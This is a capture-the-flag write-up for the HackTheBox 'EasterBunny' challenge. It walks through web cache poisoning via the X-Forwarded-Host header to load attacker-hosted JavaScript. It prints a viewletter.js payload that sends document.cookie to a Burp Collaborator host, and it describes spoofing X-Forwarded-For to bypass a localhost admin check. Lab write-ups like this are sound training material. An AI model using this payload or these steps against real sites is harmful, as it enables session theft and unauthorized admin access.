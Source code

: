```yaml
---
layout: single
title:  "EasterBunny"
date:   2022-08-28
---
```


It's that time of the year again! Write a letter to the Easter bunny and make your wish come true! But be careful what you wish for because the Easter bunny's helpers are watching! <br>

<h4 align="center">
<img src="https://user-images.githubusercontent.com/45040001/187103435-e7a41ec1-67d8-491a-9572-a340b96f265e.png">
</h4>


The EasterBunny is a easy challenge from hackthebox where you can learn a lot from it. Lets explain little bit the steps but with words, the first step is to identify web cache poisoning vulnerability and follow [web cache poisoning](https://portswigger.net/research/practical-web-cache-poisoning) methodology.
<br>
<br>
Let's start where the flag is stored.. The flag is stored at the 3rd letter which if you are not an admin you can't see and you will get an error message. Our steps is to be authenticated like a admin and get the flag.

## WCP Methodology
![image](https://user-images.githubusercontent.com/45040001/187235119-7f8f04e9-1a0e-4899-b623-109aae0d0ceb.png)

### Detect unkeyed input
We can detect & inject into cache a random string just using `X-Forwarded-Host` HTTP Header. Using this header we can perform a xss attack to steal some cookies from the user in our situation from `bot.js`.<br>
![detect_unkeyd_input](https://user-images.githubusercontent.com/45040001/187235463-af6684d1-b75f-422d-b08f-7515db78026a.png)
<br>
So we can see our unkeyed input injects 3 attributes and they are:
- /static/main.css
- `<base href="unkeyed input:port/static" />`
- /static/viewletter.js

When you see a javascript file like the `viewletter.js` immediately you think how you can perform a xss attack right?

![unkeyd_input](https://user-images.githubusercontent.com/45040001/187235510-121c99c8-0160-463d-b4e2-c95af06b362a.png)

![viewletter_javascript](https://user-images.githubusercontent.com/45040001/187235528-15b5cbc5-faea-4430-bef9-f7891538de51.png)

## Get prepared for the attack
For exploitation part first of all we need a HTTP server(free solution ngrok) and create a directory tree like that:
![187313837-93762db5-ebfc-4c99-9f69-132ce594b72c](https://user-images.githubusercontent.com/45040001/188494846-ad18b497-7d7c-4180-b1be-06d2092d45ea.png)
<br>
And the most important our malicious `viewletter.js` hosted in our http server where with this script we can steal the auth token and get the flag.
```javascript
//viewletter.js
fetch('http://4w1j76r5ydqthsa2yt357tr45vbmzb.burpcollaborator.net/', {
		    method: 'POST',
		    body: document.cookie
		    });
```
The challenge source code has a file called `authorisation.js` where somebody can see how `admin`  authorization works.<br>
So if someone wants to be authenticated like a admin he must be from localhost and he must know the `authSecret` which is a random value.
```javascript
const authSecret = require('crypto').randomBytes(69).toString('hex');

const isAdmin = (req, res) => {
  return req.ip === '127.0.0.1' && req.cookies['auth'] === authSecret;
};

module.exports = {
  authSecret,
  isAdmin,
};
```
So far so good.. But how will get the `authSecret` from admin? we should steal the cookies from him(or from `bot.js`)
```javascript
//part from bot.js
await page.setCookie({
            name: 'auth',
            value: authSecret,
            domain: '127.0.0.1',
        });
```

Now lets take a look how the bot visiting works. At source code of `routes.js` in the `/submit` route we can see the bot visit the last inserted letter but with a little bit different host, pay attention at `127.0.0.1`
```javascript
//part of routes.js
botVisiting = true;
await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);
botVisiting = false;
```

## Attack

So we retreive a lot of informations and they are:
- we find unkeyed inputs for web cache poisoning attack
- we have to poison the last inserted id(last submited letter)
- we have to steal the `authtoken`
- and grab the flag

First step is to setup our HTTP server with all files & directories included
![tt](https://user-images.githubusercontent.com/45040001/188495101-735dd790-a852-48a2-ad49-ec277bba5999.png)

<br>

Right now we are ready to start the whole attack step by step. Fist of all we need to know how many letters are saved in database to inject the last letter `/letters?id=${inserted.lastID}` to find how many letters are seved we can send just a GET requests at `/message/3` and you will get a response with the message of the letter and the counters of the letters. 

So at my situation the last letter is 16 so i have to inject the 17 letter. <br>
Inject values is:
- GET /letters?id=17
- HOST: 127.0.0.1 | because of this piece of code `await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);`
- X-Forwarded-Host: your-ngrok-ip.com

![web_poisoning](https://user-images.githubusercontent.com/45040001/187318535-9fc0269b-fac7-46a6-bbf9-3f048cedcd05.png)

Send the injection requests and instantly we have to submit a new letter and this letter will be injected .
![submit_new_letter](https://user-images.githubusercontent.com/45040001/187318584-250a390e-745c-4d8f-b3e1-7f5560ca3c8c.png)


after a few seconds we will successfully get the admin secret(authtoken) in our burpcollaborator.
![auth_cookie](https://user-images.githubusercontent.com/45040001/187318627-f3192d7b-3d86-4010-8e6e-0c298ca62a65.png)

The next step is to bypass localhost restriction and i do that with `X-Fowarded-For` HTTP Header as i show below.

![get_flag_1](https://user-images.githubusercontent.com/45040001/187318708-ded902f8-0e25-4926-897e-8b185b125da4.png)

[ip bypass headers](https://gist.githubusercontent.com/kaimi-/6b3c99538dce9e3d29ad647b325007c1/raw/339dad3040fd1a967588edf341eb72b033a9d9fe/gistfile1.txt) <br>

![get_flag_2](https://user-images.githubusercontent.com/45040001/187318715-5c3adc65-87fd-4c8f-ba4f-b9ee3676de8b.png)

![correct_payload](https://user-images.githubusercontent.com/45040001/187318812-fb0b7c39-bb01-4797-8f2d-690a260b33d3.png)

grab the flag. <br>
![final_flag](https://user-images.githubusercontent.com/45040001/187318733-85d968a5-fe2a-43b5-b121-949d8528c19f.png)



